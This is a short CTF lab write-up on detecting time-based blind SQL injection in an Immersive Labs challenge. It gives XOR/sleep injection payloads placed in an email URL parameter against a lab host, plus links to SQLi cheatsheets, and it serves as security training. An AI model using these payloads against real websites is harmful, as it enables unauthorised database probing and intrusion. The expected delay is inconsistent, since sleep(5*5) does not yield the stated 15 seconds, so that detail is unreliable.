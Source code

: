 ```yaml
---
date: 2025-02-07
categories: [CTF, ImmersiveLabs]
title: "IML - SQL Injection: Blind"
tags: ['http', 'sqli', 'exploit', 'rce', 'sql', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "SQL Injection Blind - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection: Blind

- Great Cheatsheets:
<https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet>

<https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MySQL%20-%20Time%20Based%20SQLi/README.md>

<https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1>


![image1](../resources/39150bc6d9f84dfba5d6a1710f047711.png)

- Test for Time-Based Blind SQLi:

**'XOR(if(now()=sysdate(),sleep(5\*5),0))OR'**

`http:// 10.102.173.241/regards.php?email=stefan@immersivenews.co.uk%27XOR(if(now()=sysdate(),sleep(5*5),0))OR%27`

**'XOR(if(1=1,sleep(5\*5),0))OR'**

`http:// 10.102.173.241/regards.php?email=stefan@immersivenews.co.uk%20%27XOR(if(1=1,sleep(5*5),0))OR%27`

**'XOR(if(2=1,sleep(5\*5),0))OR'** \<--- This shouldn't work because the statement is false (2=1)

If the websites response is ~15 seconds, it means it is vulnerable to this kind of attack


![image2](../resources/30f64b8f60ff4b02b7df79daf3aa388d.png)

Website hangs for approx 15sec, so it's probably vulnerable
